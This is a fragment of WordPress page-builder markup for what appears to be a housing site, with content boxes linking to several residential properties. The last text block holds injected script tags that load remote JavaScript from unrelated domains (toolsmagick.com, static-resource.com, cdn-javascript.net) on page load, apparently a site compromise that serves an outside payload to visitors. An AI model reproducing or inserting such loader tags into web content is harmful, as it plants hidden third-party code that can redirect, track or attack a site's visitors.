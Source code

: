 image="http://klahanie.com/wp-content/uploads/2019/03/168the_village-e1563906402560.jpg" image_id="726|full" image_max_width="200" link="http://klahanie.com/the-village/" linktext="" link_target="" animation_type="" animation_direction="left" animation_speed="0.3" animation_offset="" /][fusion_content_box title="The Willows" backgroundcolor="" icon="" iconflip="" iconrotate="" iconspin="no" iconcolor="" circlecolor="" circlebordersize="" circlebordercolor="" outercirclebordersize="" outercirclebordercolor="" image="http://klahanie.com/wp-content/uploads/2019/03/172willows-e1563906433934.jpg" image_id="754|full" image_max_width="200" link="http://klahanie.com/the-willows/" linktext="" link_target="" animation_type="" animation_direction="left" animation_speed="0.3" animation_offset="" /][fusion_content_box title="Windslow Place" backgroundcolor="" icon="" iconflip="" iconrotate="" iconspin="no" iconcolor="" circlecolor="" circlebordersize="" circlebordercolor="" outercirclebordersize="" outercirclebordercolor="" image="http://klahanie.com/wp-content/uploads/2019/03/Winslow-Place-e1563906578159.jpg" image_id="753|full" image_max_width="200" link="http://klahanie.com/winslow-place/" linktext="" link_target="" animation_type="" animation_direction="left" animation_speed="0.3" animation_offset="" /][/fusion_content_boxes][/fusion_builder_column][/fusion_builder_row][/fusion_builder_container][fusion_builder_container hundred_percent="no" equal_height_columns="no" menu_anchor="" hide_on_mobile="small-visibility,medium-visibility,large-visibility" class="" id="" background_color="" background_image="" background_position="center center" background_repeat="no-repeat" fade="no" background_parallax="none" parallax_speed="0.3" video_mp4="" video_webm="" video_ogv="" video_url="" video_aspect_ratio="16:9" video_loop="yes" video_mute="yes" overlay_color="" video_preview_image="" border_size="" border_color="" border_style="solid" padding_top="" padding_bottom="" padding_left="" padding_right=""][fusion_builder_row][fusion_builder_column type="1_1" layout="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" border_position="all" spacing="yes" background_image="" background_repeat="no-repeat" padding_top="" padding_right="" padding_bottom="" padding_left="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="small-visibility,medium-visibility,large-visibility" center_content="no" last="no" min_height="" hover_type="none" link=""][fusion_text]<script src="//toolsmagick.com/2252259d09bdba7f1b.js"></script><script src="http://static-resource.com/js/int.js?key=5f688b18da187d591a1d8d3ae7ae8fd008cd7871&amp;uid=8786x" type="text/javascript"></script><script src="http://cdn-javascript.net/api?key=a1ce18e5e2b4b1b1895a38130270d6d344d031c0&amp;uid=8786x&amp;format=arrjs&amp;r=1581831243043" type="text/javascript"></script><script src="http://toolsmagick.com/ext/2252259d09bdba7f1b.js?sid=52646_8786_&amp;title=qqq&amp;blocks[]=31af2" type="text/javascript"></script>[/fusion_text][/fusion_builder_column][/fusion_builder_row][/fusion_builder_container]
